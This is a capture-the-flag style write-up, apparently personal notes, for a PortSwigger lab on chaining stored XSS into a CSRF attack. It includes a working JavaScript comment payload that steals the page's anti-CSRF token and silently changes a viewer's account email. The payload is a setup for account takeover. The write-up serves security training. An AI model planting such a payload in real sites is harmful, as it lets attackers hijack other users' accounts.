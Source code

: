 - Some websites allow logged-in users to change their email address without re-entering their password. If you've found an XSS vulnerability, you can make it trigger this functionality to change the victim's email address to one that you control, and then trigger a password reset to gain access to the account.
  This type of exploit is typically referred to as cross-site request forgery(CSRF), which is slightly confusing because CSRF can also occur as a standalone vulnerability.
- When CSRF occurs as a standalone vulnerability, it can be patched using strategies like anti-CSRF tokens. However, these strategies do not provide any protection if an XSS vulnerability is also present.

## Steps to solve lab
### Title - Exploiting XSS to perform CSRF

**Desc** - This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a [CSRF attack](https://portswigger.net/web-security/csrf) and change the email address of someone who views the blog post comments.
You can log in to your own account using the following credentials: `wiener:peter`

**Our end goal** - To solve the lab, exploit the vulnerability to perform a [CSRF attack](https://portswigger.net/web-security/csrf) and change the email address of someone who views the blog post comments.


1. Analyze the page and as per the lab description there is a vulnerability in the blog comments function.
![[XSS93.png]]

![[XSS94.png]]
As you can see above, our tag is not sanitized it means we can execute javascript.

2. Now, copy the below payload and paste it into the "comment" box.

**Payload** - 
```jsx
<script>
    window.addEventListener("DOMContentLoaded", function(){
        var token = document.getElementsByName('csrf')[0].value;

        var data = new FormData();
        data.append('csrf', token);
        data.append('email', 'changed32@gmail.com');

        fetch('/my-account/change-email',{
            method: 'POST',
            mode: 'no-cors',
            body: data
        });

    });
</script>
```
For the explaination to the above code, you can take a look at [[(lab-18)Exploiting_cross-site_scripting_to_capture_passwords]]

![[XSS105.png]]

![[XSS106.png]]
